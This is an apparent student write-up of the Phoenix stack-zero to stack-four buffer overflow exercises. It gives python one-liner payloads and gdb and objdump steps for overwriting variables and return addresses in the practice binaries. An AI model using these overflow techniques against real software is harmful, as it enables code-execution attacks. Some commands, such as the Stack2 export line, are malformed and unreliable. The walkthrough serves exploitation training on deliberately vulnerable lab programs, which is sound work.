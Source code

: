 # Phoenix: is basic binar exploitation challenge:

# Note: challenges are located in /opt/phoenix/amd64


## Stack0:
- gets take un check data which could be used to create the buffer over flow:

```
python -c 'print("A"*70)' | ./stack_zero

```

## Stack1:

- The challenge is similar to the above challenge but one has to look for following things:
  1- read the little-Endians -> which store data from large to smaller values, so after the overflow provide the variables value in reverse order
  2- In the code the user provided input is taken as the argument in the for of ``` char ***argv ``` which is then copied to the buffer of length 64 buffer[64]:
  
  ```
   strcpy(locals.buffer, argv[1]);
  ```
  
  ==Note==: The file takes the input as the argument so we can not pass as the pipe it will give us the error instead we will do this:
  ```
  /stack-one $(python -c 'print("A" * 65 + "\x62\x59\x6c\x49")')
  
  ```
## Stack2:
- In this challenge code is using the envirnment variable with the name of ==ExploitateEducation== to be passed as the argument in the stack.
- so in order make the buffer overflow happen we will do :
```
export ExploitEducation = $(python -c 'print("A" * 65 + \x0a\x09\x0a\x0d)')

```
Simply run the function and we will have the over flow.

## stack3:

- In the stack three one has to first find the address of the complete_level function:
```
objdump -d ./stack-three | grep complete_level
000000000040069d <complete_level>:

```
```
0x40069d
python -c 'print "A" * 64 + "\x9d\x06\x40"' | ./stack-three
```

## stack4

- In this challenge the buffer ovflow occurs in the start_level funtions which is called in the main() function:

```

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}


```

- What we have to do is:
  1- overflow the stack buffer until it reach the return address of strart_level() function
  2- keep in mind all the functions returns addressess are saved on the stack.
  3- the return address of the start_level will also be present on the stack.
  
- How to find the write amount of characters to overflow the buffer:
  1- open the program in the gdb.
  2- place the breakpoint after the gets() function.
  3- fill the buffer with dummy data:
	  ```
	  run < <(python -c 'print("A" * 64)')
	  ```
  4- Now find the location of overflowed function:
	  ```
	  x/100x $rsp // rsp is the stack pointer it is the top most address of the stack
	  ```
  5- the above prompt will dump the address and data stored on the stack in form of hex.
  6- The top left address will mostly likely show the overflowed buffer.
  7- next step is to find the return address of start_level which could by find by:
	  ```
	  info frame // the <saved $rip=????> will be the return address of the start level function
	  ```
  8- To calculate the right amount of characters to reach the start_level return address one can subtract the address of overflowed buffer with the return address
  of the start_level function.
  
	  ```
	  0x7fffffffe4f8 - 0x7fffffffe4a0 = 0x58 
	  which in decimal is = 88
	  ```
  9- Now to curate a payload:
	  ```
	  python -c 'print("A" * 88 + "\x1d\x06\x40")' | ./stack-four
	  ```
